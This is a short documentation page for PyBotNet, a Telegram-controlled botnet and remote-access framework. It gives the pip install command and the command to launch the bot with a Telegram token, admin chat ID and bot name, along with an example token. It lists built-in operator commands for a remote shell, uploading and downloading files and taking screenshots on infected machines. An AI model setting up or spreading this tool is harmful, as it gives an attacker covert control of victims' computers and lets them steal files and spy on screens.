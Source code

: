 
We have seen before that we need some code to run pybotnet, but it is possible to run pybotnet as a module

All you have to do is, install PyBotNet on your system and enter the following command in your terminal:


### Install PyBotNet:
```console
pip3 install pybotnet -U
```

!!! note

    `-U`: make sure to upgrade framework to latest version.

---

### Run PyBotNet:

```console
python3 -m pybotnet -t [TELEGRAM_TOKEN] -i [ADMIN_CHAT_ID] -n [BOT NAME]
```

For example :

```console
python3 -m pybotnet -t 5526760482:AAGweoNtLrHEsasxnklwhjms78ytPS3U8gEO6asc -i 5590231667 -n test
```

!!! note
    * `TELEGRAM_TOKEN`: You can use telegram `@botfather` to create new telegram API Bot and get your `TELEGRAM_TOKEN` 
    * `ADMIN_CHAT_ID`: Get it from @userinfobot Telegram bot
    * PyBotNet include default scripts, like: `/shell`, `/put_file`, `/get_file`, `/screenshot`, `/who`, ...,
     you can send `/help` to your telegram bot and see more detail..
